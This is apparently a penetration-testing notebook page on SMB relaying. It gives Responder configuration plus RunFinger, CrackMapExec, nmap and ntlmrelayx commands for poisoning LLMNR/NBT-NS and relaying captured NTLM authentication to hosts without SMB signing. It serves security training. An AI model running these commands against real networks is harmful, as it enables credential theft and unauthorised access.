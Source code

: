# SMB Relaying

After observing LLMNR and/or NBT-NS traffic with Responder and forcing the client to authenticate to your machine, it is possible for the attacker to relay the Net-NTLMv2 hash obtained to all systems within scope that have SMB Signing Disabled.&#x20;

### Identifying Systems with SMB Signing Disabled

#### RunFinger.py

Finger is included with Responder.py in the `/tools` directory. Simply run the tool against either a subnet or file and parse the results using `cut`

```bash
python3 RunFinger.py -i $subnet
```

#### CrackMapExec

A list can also easily be created with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):

```bash
crackmapexec smb $subnet --gen-relay-list 
```

#### Nmap

Nmap can also create a list of hosts that have SMB Signing Disabled:

```bash
nmap --script=smb-security-mode -p445 $ip
```

### SMB Relaying 101

After confirming LLMNR/NBT-NS traffic and identifying systems with SMB Signing Disabled, we are ready to perform the attack. First, we need modify the `Responder.conf` file and disable both SMB and HTTP:

```python
# responder.conf

SQL = On
SMB = Off    
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
```

We can then run Responder:

```bash
responder -I eth0 -dwP
```

We can then run `ntlmrelayx.py` from Impacket, supplying our file of hosts previously identified to have SMB Signing Disabled.

```bash
# Example generic relaying
python3 ntlmrelayx.py -tf smbdisabled.out --smb2-support

# Save hashes from relaying locally
python3 ntlmrelayx.py -tf smbdisabled.out --smb2-support -of
```

#### Relaying with SOCKS

We can also enable SOCKS support while relaying for interactive sessions. Using this flag will also provide you with a session on the host if the user is not a local administrator:

```bash
python3 ntlmrelayx.py -tf smbdisabled.out --smb2-support --socks
```

### References

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% embed url="https://luemmelsec.github.io/Relaying-101/#ntlm-downgrade-attack" %}

{% embed url="https://en.hackndo.com/ntlm-relay" %}

{% embed url="https://docs.microsoft.com/en-us/archive/blogs/josebda/the-basics-of-smb-signing-covering-both-smb1-and-smb2" %}

{% embed url="https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/exploitation/exploit-without-account/smb-relay" %}

{% embed url="https://www.secureauth.com/blog/playing-with-relayed-credentials/" %}
